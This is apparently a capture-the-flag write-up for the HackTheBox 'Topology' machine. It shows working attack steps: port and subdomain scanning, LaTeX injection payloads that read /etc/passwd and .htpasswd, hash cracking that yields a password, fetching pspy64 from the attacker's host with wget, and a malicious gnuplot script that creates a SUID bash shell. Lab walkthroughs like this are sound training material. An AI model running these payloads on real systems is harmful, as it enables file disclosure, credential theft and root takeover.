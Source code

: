 # [Topology](https://app.hackthebox.com/machines/Topology)

```bash
nmap -p- --min-rate 10000 10.10.11.217 -Pn
```

![Alt text](img/image.png)


After discovering open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.217 -Pn 
```

![Alt text](img/image-1.png)


From contact information as below, I add `topology.htb` into `/etc/hosts` file.

![Alt text](img/image-2.png)

Let's do `Subdomain Enumeration` via `ffuf` command.
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac 
```

![Alt text](img/image-3.png)


I also get `latex` subdomain from website's itself, so that, I will add `latex`,`dev`,`stats` subdomains into `/etc/hosts` file.


I found `Latex Equation Generator`, let's search injection ways for `Latex code`

![Alt text](img/image-4.png)


I found this [article](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection) for `LaTeX` injection.


While I submit such an input `$\lstinputlisting{/etc/passwd}$` into here, I got already `/etc/passwd` file of target system.

![Alt text](img/image-5.png)


Let's enumerate files, I add such filename `/var/www/dev/.htpasswd` into here to read.

Payload=> `$\lstinputlisting{/var/www/dev/.htpasswd}$`

![Alt text](img/image-6.png)


vdaisley: $apr1$10NUB/S2$58eeNVirnRDB5zAIbIxTY0


Let's crack hash via `hashcat` tool.

```bash
hashcat -m 1600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

I found password `calculus20`, let's login into machine via this credentials.

vdaisley: calculus20

user.txt

![Alt text](img/image-7.png)



Let's upload `pspy64` into machine to see background jobs.

1.First, we need to create http server.
```bash
python3 -m http.server --bind 10.10.14.2 8080
```

![Alt text](img/image-8.png)


2.Now, it's time download this binary via `wget` command.
```bash
wget http://10.10.14.2:8080/pspy64
```

![Alt text](img/image-9.png)


After execution of `pspy64`, I see that there's bash script called `loadplot.plt`.
It means that `getdata.sh` script calls this `.plt` script.

![Alt text](img/image-10.png)


Let's write our malicious `.plt` file on `/opt/gnuplot` directory.


```bash
set print "/dev/shm/dr4ks-output"
output = system("id")
print(output)
```

![Alt text](img/image-11.png)
 

Let's see that this executed or not.

![Alt text](img/image-12.png)


As it is executed, we can replace `id` command with malicious cmdlet which we will give `SUID` binary to copied `/bin/bash` file.

```bash
cp /bin/bash /tmp/dr4ks && chmod 4777 /tmp/dr4ks
```

![Alt text](img/image-13.png)


Let's execute this copied `/bin/bash` file via `-p` option.


root.txt

![Alt text](img/image-14.png)